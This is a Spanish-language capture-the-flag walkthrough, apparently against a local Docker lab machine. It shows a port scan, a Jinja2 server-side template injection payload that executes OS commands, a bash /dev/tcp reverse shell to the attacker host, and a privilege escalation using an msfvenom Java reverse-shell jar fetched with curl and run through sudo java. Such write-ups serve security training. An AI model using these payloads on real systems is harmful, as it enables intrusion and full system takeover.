

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Vemos que nos da una web en el puerto 5000. Vamos a ver que nos está mostrando.


Vemos que nos mustra un especie de registro de usuario, vamos a hacer una prueba.


Al darle clik a enviar, vemos que nos devuelve el nombre del usuario.


Podemos ante un un SSTI (Server Side Template Injection) en el campo del nombre de usuario. Así que vamos a hacer la prueba básica para poder comprobar si es vulnerable.
```
{{2 * 2}}
```


Vemos que al darle click nos da el resulatdo de la operación, así que ahora vamos a buscar un payloado para podernos generar una shell reversa.
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


Vemos que después de introducir este payload, nos mustra el resultado del comando `id`.


Ahora vamos a generarnos la reverse shell. Para ello nos pondremos a la escucha en un puerto.
```
nc -lnvp 6969
```


Seguidamente, con el payload encontrado previamente, vamos a introducir la reverse shell.
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "exec bash -i &>/dev/tcp/172.17.0.1/6969 <&1"').read() }}
```


Vemos que después de enviar el payload, la web se nos quda colgada, esto es buna señal, así que vamos a ver si se nos ha generado la shell en nusetra terminal.


Ahora vamos a comprovar si hay binarios con permisos de administrador para poder escalar nuestros privilegios.
```
sudo -l
```


Vemos que podemos escalar privilegios con java. Para ello nos tendremos que generar un payloado con `msfvenom` para poder generar una reverse shell de administrador.
```
msfvenom -p java/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f jar -o shell.jar
```


Ahora vamos a compartir el exploit a la máquina víctima por un servidor python.
```
python3 -m http.server 80
```


Ahora en la máquina víctima nos lo vamos a descargar.
```
curl http://172.17.0.1/shell.jar -o shell.jar
```


Ahora vamos a ponernos a la escucha por un puerto.
```
nc -lnvp 4444
```


Y ahora ejecutamos el archivo usando el binario.
```
sudo /usr/bin/java -jar /tmp/shell.jar
```


Veremos que después de ejectuar el archivo se nos genera una shell de administrador en la consola atacante que estaba en escucha por el puerto `4444`.